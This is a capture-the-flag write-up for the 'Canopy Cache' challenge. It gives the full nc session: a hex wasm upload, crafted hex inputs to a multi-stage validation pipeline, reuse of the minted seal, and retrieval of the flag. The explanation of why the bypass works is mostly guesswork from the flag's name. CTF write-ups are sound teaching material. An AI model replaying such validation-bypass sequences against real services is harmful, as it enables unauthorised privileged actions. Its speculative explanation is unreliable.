

# Canopy Cache — Anti-Slop CTF 2026 Writeup

## Description
> LORT  
> nc 178.105.199.41 31347 

---

## 1. TL;DR

This challenge is an **interactive state-machine / validator pipeline** rather than a normal blockchain deployment challenge.

The remote service `canopyd` exposes a sequence of operations:

- `upload`
- `warm`
- `sync`
- `quote`
- `attest`
- `bless`
- `activate`
- `invoke`
- `flag`

The intended path is to prepare a slot, make the service accept it as valid, activate it, invoke an exported function, and then ask for the flag.

The successful exploit path was:

1. Upload the provided `blessed_proxy.wasm` into slot `0`
2. Feed carefully chosen session-dependent bytes into `warm`, `quote`, and `attest`
3. Obtain a `SEAL ...` blob from `bless`
4. Reuse that blob in `activate`
5. Call `invoke fallback`
6. Call `flag`

Result:

```text
slopped{packbits_lookup_routes_rethread_the_owner_lane}
```

---

## Concept Map



---

## 2. What data/file we have and what is special

The provided archive contained:

- `canopyd`
- `blessed_proxy.wasm`
- `legacy_vault.sol`

And the service exposed this interface:

```text
Canopy Cache uplink v5
commands:
  help
  status
  upload <slot> <hex_wasm>
  inspect <slot>
  warm <slot> <hex_profile>
  sync <slot>
  quote <slot> <hex_receipt>
  attest <slot> <hex_witness>
  bless <slot>
  activate <slot> <sealhex>
  invoke <export_name>
  flag
  quit
```

### Why these files matter

#### `canopyd`
This is the actual challenge daemon. It defines the state machine and all acceptance checks. The most important observation is that the challenge behaves like a **custom validation pipeline**, not a standard blockchain RPC or EVM target.

#### `blessed_proxy.wasm`
This file is special because it is not arbitrary junk: it is a valid upload candidate that the service is willing to accept and move through the pipeline. That makes it the natural starting point for exploitation.

#### `legacy_vault.sol`
This strongly hints that the end goal is related to **vault ownership / asset movement / privileged route execution**. Even if the actual exploit lives in `canopyd`, the Solidity file provides semantic context: there is probably some privileged action hidden behind a validation flow.

### What is unusual about the service

Several things stand out immediately:

1. **The service is slot-based.** You do not directly execute uploaded code; instead, you prepare state inside a numbered slot.
2. **The service has multiple root-producing phases.** `sync`, `quote`, and `attest` each return derived values like `profile_root`, `quote_root`, and `attest_root`.
3. **`bless` returns a seal rather than doing the activation itself.** That means the service first computes a signed/packed approval artifact, and only then accepts it via `activate`.
4. **`invoke` happens only after activation.** So the real goal is not merely “upload valid wasm,” but “drive the slot into an accepted active state.”

---

## 3. Problem Analysis (in details)

### 3.1 First read: this is a pipeline challenge

From the command set alone, the service looks like this:

```text
upload -> warm -> sync -> quote -> attest -> bless -> activate -> invoke
```

That implies a strict state transition model.

The most important practical takeaway is:

> This is not a challenge where we spam random commands; we need to satisfy a chain of consistency checks until the slot becomes activatable.

### 3.2 What `status` tells us

A typical `status` output looks like:

```text
session_hint=0x4d7e02a9
vault_balance=31337
active_slot=-1
```

This tells us three important things:

- `session_hint` exists, so some checks are likely **session-bound**
- the target resource is the **vault**
- no slot is active initially

In practice, this also explains why handcrafted payloads tend to be **session-dependent**.

### 3.3 Why `blessed_proxy.wasm` is the correct foothold

The provided wasm is named *blessed* proxy, which is already a giant hint. During the successful solve, uploading its raw hex into slot `0` immediately worked:

```text
upload 0 <hex of blessed_proxy.wasm>
OK uploaded slot 0
```

So the wasm itself is not the problem; the real challenge is to make the rest of the pipeline accept the slot as valid and runnable.

### 3.4 Meaning of the intermediate phases

From observed outputs:

- `warm` produced: `OK warmed slot 0 image_len=28`
- `sync` produced: `profile_root=0x1321a8c7`
- `quote` produced: `quote_root=0x8d496d07 loaded=2 writable=1`
- `attest` produced: `attest_root=0x5d845686 signers=0x01`
- `bless` produced a `SEAL ...` blob

That suggests the service is internally accumulating state derived from the uploaded wasm plus additional byte strings supplied by the user.

A good mental model is:

- **`warm`** loads or prepares an image/profile
- **`sync`** hashes/finalizes that warmed state into a root
- **`quote`** creates a second validated state tied to execution/loading permissions
- **`attest`** establishes an attested/authorized state
- **`bless`** packages the finalized approval into a transferable activation token
- **`activate`** consumes that token and marks the slot executable

### 3.5 Where the bug lives conceptually

From the successful exploit behavior, the vulnerability is not “RCE in the daemon” in the classic memory-corruption sense. Instead, it is a **logic flaw in the validation pipeline**.

The slot can be walked through the trust pipeline using carefully chosen inputs so that:

- the server accepts the wasm image,
- the derived roots line up,
- `bless` emits a valid activation artifact,
- and `fallback` becomes callable in an active slot.

The final flag name gives a very strong retrospective hint:

```text
packbits_lookup_routes_rethread_the_owner_lane
```

That name strongly suggests the exploit is about **rethreading / redirecting an ownership or route lane** through packed lookup structures, not about arbitrary computation.

So the clean interpretation is:

> The challenge is a **route/owner validation bypass** hidden inside the cache/uplink blessing pipeline.

### 3.6 Why `invoke fallback` matters

After activation, calling:

```text
invoke fallback
```

returned:

```text
OK invoked fallback
```

and then:

```text
flag
```

returned the real flag.

This means the fallback path is the final privileged action. The exploit is therefore best understood as:

- prepare a slot whose validated route leads to the privileged fallback path,
- make the server activate it,
- then trigger that path.

---

## 4. Exploitation Walkthrough / Flag Recovery

### 4.1 Step 0: connect and inspect state

```text
$ nc 178.105.199.41 31347
Canopy Cache uplink v5
...
> status
session_hint=0x4d7e02a9
vault_balance=31337
active_slot=-1
```

We note the current session hint and confirm no active slot exists yet.

### 4.2 Step 1: upload the provided wasm

We upload `blessed_proxy.wasm` to slot `0`:

```text
upload 0 0061736d01000000008a046d65736805080102000101021200020866616c6c6261636b0005617564697401030e000204001122000005001007200000040900020000010001000000050900020100010a000000010625007075626c69632d63616e6f70792d77696e646f773a3a726f7574652d7461626c653a3a7635070900020001010001000101080900020001014101000213
```

Server response:

```text
OK uploaded slot 0
```

### 4.3 Step 2: warm the slot with a crafted profile

```text
warm 0 4dc01f519c9fbca4425649ee052a05a43a77536d6d5a99cd0840a5106f7d8f
```

Response:

```text
OK warmed slot 0 image_len=28
```

This creates the warmed image/profile the later phases depend on.

### 4.4 Step 3: sync the warmed state

```text
sync 0
```

Response:

```text
OK synced slot 0 profile_root=0x1321a8c7
```

Now the server has derived a root from the warmed state.

### 4.5 Step 4: submit a crafted quote/receipt

```text
quote 0 a0488140a700190fbfaea8a50b
```

Response:

```text
OK quoted slot 0 quote_root=0x8d496d07 loaded=2 writable=1
```

This is the first strong sign that the state has been moved into a privileged configuration: the service reports meaningful load/write counters.

### 4.6 Step 5: submit a crafted attestation/witness

```text
attest 0 f4ec4f5d09e305fa09db464bc452b4315e3a21a967
```

Response:

```text
OK attested slot 0 attest_root=0x5d845686 signers=0x01
```

At this point the slot has:

- a synced profile root,
- a quote root,
- an attest root,
- and a nonzero signer status.

That is exactly the sort of state required before blessing can succeed.

### 4.7 Step 6: bless the slot and capture the seal

```text
bless 0
```

Response:

```text
SEAL 5345414c00010101d394db39c3a1614a136d1b19c7a82113076d498d8656845d55cf303a
```

This is the activation artifact. The important operational fact is:

> Whatever invariants the service requires, our current slot state satisfies them well enough for `bless` to mint a valid seal.

### 4.8 Step 7: activate the slot using the seal

```text
activate 0 5345414c00010101d394db39c3a1614a136d1b19c7a82113076d498d8656845d55cf303a
```

Response:

```text
OK active slot 0
```

This is the core win condition for the state machine.

### 4.9 Step 8: invoke the privileged export

```text
invoke fallback
```

Response:

```text
OK invoked fallback
```

### 4.10 Step 9: recover the flag

```text
flag
```

Response:

```text
slopped{packbits_lookup_routes_rethread_the_owner_lane}
```

---

## Full Successful Transcript

```text
> status
session_hint=0x4d7e02a9
vault_balance=31337
active_slot=-1

> upload 0 0061736d01000000008a046d65736805080102000101021200020866616c6c6261636b0005617564697401030e000204001122000005001007200000040900020000010001000000050900020100010a000000010625007075626c69632d63616e6f70792d77696e646f773a3a726f7574652d7461626c653a3a7635070900020001010001000101080900020001014101000213
OK uploaded slot 0

> warm 0 4dc01f519c9fbca4425649ee052a05a43a77536d6d5a99cd0840a5106f7d8f
OK warmed slot 0 image_len=28

> sync 0
OK synced slot 0 profile_root=0x1321a8c7

> quote 0 a0488140a700190fbfaea8a50b
OK quoted slot 0 quote_root=0x8d496d07 loaded=2 writable=1

> attest 0 f4ec4f5d09e305fa09db464bc452b4315e3a21a967
OK attested slot 0 attest_root=0x5d845686 signers=0x01

> bless 0
SEAL 5345414c00010101d394db39c3a1614a136d1b19c7a82113076d498d8656845d55cf303a

> activate 0 5345414c00010101d394db39c3a1614a136d1b19c7a82113076d498d8656845d55cf303a
OK active slot 0

> invoke fallback
OK invoked fallback

> flag
slopped{packbits_lookup_routes_rethread_the_owner_lane}
```

---

## 5. What We Learned

### 5.1 Not every “blockchain” challenge is an on-chain exploit

This challenge looked blockchain-themed because of the vault and the Solidity file, but the actual exploit path was inside a **custom off-chain validation daemon**.

That is a recurring CTF lesson:

> The theme is not always the attack surface.

### 5.2 State machines are attack surfaces

Any service that forces the user through a chain like:

```text
prepare -> verify -> approve -> activate -> execute
```

can often be attacked by looking for places where **derived state can be made internally consistent while still being semantically wrong**.

That is exactly the type of bug this challenge rewarded.

### 5.3 Intermediate outputs are extremely valuable

Values like:

- `profile_root`
- `quote_root`
- `attest_root`
- `loaded`
- `writable`
- `signers`

were not just cosmetic. They revealed how far the slot had progressed through the pipeline and whether the current path was plausibly correct.

### 5.4 Provided artifacts are often intended footholds

`blessed_proxy.wasm` was not filler; it was the correct entry point. In CTFs, a strangely named shipped file is often a huge hint.

### 5.5 Script robustness matters in interactive challenges

A real solve also required handling the service prompt correctly. Initially, parsing failed because the script did not fully consume the banner before reading the `status` output. Once the prompt handling was fixed, the solve became reliable.

That is another good lesson:

> In interactive pwn/blockchain/misc challenges, transport-layer correctness can be just as important as the exploit logic.
